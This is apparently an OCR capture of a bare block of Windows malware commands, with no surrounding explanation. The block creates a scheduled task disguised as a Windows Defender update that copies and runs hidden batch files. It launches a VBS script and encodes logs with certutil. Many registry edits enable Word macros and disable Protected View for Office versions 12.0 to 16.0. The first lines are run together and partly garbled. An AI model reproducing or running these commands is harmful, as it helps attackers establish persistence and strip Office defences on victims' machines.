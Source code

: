命令:

```
reg add HKEY_CURRENT_USER\Software\RegisteredApplications /v AppXr1bysyqf6kpaq1aje5sbadka8dgx3g4g /t reg_sz /d <vb code>schtasks /create /tn "Diagnosis\Windows Defender\Microsoft-Windows-UpdateDefender5" /tr "wscript.execmd.exe /c copy ""%appdata%\microsoft\windows\c1.tmp"" ""%appdata%\microsoft\windows\c1.bat"" & ""%appdata%\microsoft\windows\c1.bat"" & del ""%appdata%\microsoft\windows\c1.tmp""cmd.exe /c copy ""%appdata%\microsoft\windows\c2.tmp"" ""%appdata%\microsoft\windows\c2.bat"" & ""%appdata%\microsoft\windows\c2.bat"" & del ""%appdata%\microsoft\windows\c2.tmp""ws.run("certutil -f -encode ""%appdata%\microsoft\windows\1.log"" ""%appdata%\microsoft\windows\2.log"" ",0,true)wscript.exe /b "%appdata%\microsoft\windows\colegg2.vbs"cmd.exe /c copy "%appdata%\\microsoft\\windows\\wctDC18.tmp" "%appdata%\\microsoft\\windows\\wctDC18.bat" & "%appdata%\\microsoft\\windows\\wctDC18.bat" & del "%appdata%\\microsoft\\windows\\wctDC18.tmp"reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\13.0\Word\Security" /v VBAWarnings /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\13.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\Word\Security" /v VBAWarnings /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\13.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\12.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\12.0\Word\Security\ProtectedView" /v DisableUnsafeLocationsInPV /t REG_DWORD /d "1" /f

reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\15.0\Word\Security" /v VBAWarnings /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\15.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\12.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\14.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security\ProtectedView" /v DisableUnsafeLocationsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\13.0\Word\Security\ProtectedView" /v DisableUnsafeLocationsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\14.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\14.0\Word\Security\ProtectedView" /v DisableUnsafeLocationsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\15.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

```
